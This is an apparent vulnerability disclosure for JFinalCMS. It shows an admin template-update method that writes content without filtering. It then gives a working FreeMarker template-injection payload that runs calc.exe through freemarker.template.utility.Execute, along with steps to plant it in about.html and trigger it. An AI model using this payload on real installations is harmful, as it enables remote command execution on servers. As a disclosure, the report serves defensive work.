



**BUG_Author:**

hadagaga

**Vendor:**

https://github.com/jwillber/JFinalCMS

**Software:**

https://github.com/jwillber/JFinalCMS

**Vulnerability File:**

#### JFinalCMS-master\src\main\java\com\cms\controller\admin\TemplateController.java

```java
public void update() {
		String fileName = getPara("fileName");
		String directory = getPara("directory");
		String content = getPara("content");
		if (StringUtils.isBlank(fileName) || content == null) {
			render(CommonAttribute.ADMIN_ERROR_VIEW);
			return;
		}
		TemplateUtils.write(SystemUtils.getConfig().getTheme()+"/"+directory.replaceAll(",", "/")+"/"+fileName, content);
		FreeMarkerRender.getConfiguration().clearTemplateCache();
		redirect(getListQuery("/admin/template/list"));
	}
```

​	We have located the template editing function on the front-end.



​	In the audit code, we can see that there is no filtering in the process of modifying the template, so we can embed payload directly:

```html
<#assign value="freemarker.template.utility.Execute"?new()>${value("calc.exe")} 
```

​	We choose to about.html this template file and write it to payload.



​	Save, and then visit the About page.

